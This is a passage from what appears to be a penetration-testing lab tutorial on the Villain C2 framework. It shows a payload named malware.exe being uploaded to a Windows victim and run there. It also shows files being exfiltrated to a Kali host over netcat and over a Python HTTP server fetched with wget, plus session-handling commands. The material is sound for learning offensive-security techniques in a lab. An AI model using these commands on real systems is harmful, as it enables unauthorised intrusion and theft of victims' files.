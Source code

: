 **Example:**

```bash
villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
```

Then inside the victim shell:

```powershell
PS C:\> & 'C:\Users\Public\malware.exe'
```

---

## 6️⃣ Downloading Files from the Victim

### Method 1: Use Netcat for Transfer

#### On Kali:

```bash
nc -lvp 9001 > secret.txt
```

#### On Windows:

```powershell
PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
```

---

### Method 2: Use HTTP Server (Windows → Kali)

#### On Windows:

```powershell
cd C:\Users\Public
python3 -m http.server 8000
```

#### On Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7️⃣ Cleaning Up & Useful Commands

### Exit without killing sessions:

```bash
villain> flee
```
